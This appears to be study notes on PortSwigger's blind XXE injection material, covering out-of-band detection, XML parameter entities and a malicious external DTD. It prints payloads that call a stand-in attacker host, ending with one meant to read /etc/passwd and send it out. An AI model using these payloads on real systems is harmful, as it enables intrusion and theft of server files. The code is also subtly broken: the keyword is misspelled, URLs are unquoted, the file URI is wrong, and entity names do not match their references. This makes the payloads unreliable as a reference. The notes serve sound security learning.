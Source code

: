 ## **PortSwigger - Blind XXE Injection**

Blind XXE vulnerabilities arise where ethe application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.  

There are two broad ways in which you can find an exploit blind XXE vulnerabilities: 

* You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
* You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

You can often detect blind XXE using the same technique as the XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows: 

`<!DOCKTYPE foo [ <!ENTITY xxe SYSTEM http://f2g9j7hhkax.web-attacker.com> ]>` 

You would then make use of the defined entity in a data value within the XML. 

This XXE attack causes the server to make a back=end HTTP request to the specified URL. The attacker can monitor the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

Sometimes XXE attack using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First the declaration of an XML parameter entity includes the percent character before the entity name: 

`<!ENTITY % myparameterentity "my parameter entity value" >`. 

And second, parameter entities are referenced using the percent character instead of the usual apmersand: 

`%myparameterentity;` 

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows: 

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM http://f2g9j7hhkax.web-attacker.com> %xxe; ]>` 

This XXE payload declares an XML parameter entity called XXE and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.  

An example of a malicious dTD to exfiltrate the contents of the /etc/passwd file is as follows: 

``` 
<!ENTITY % file SYSTEM "file://etc/passwd"> 
<!ENTITY % evil "<!ENTITY &#x25; exilfitrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate; 
```
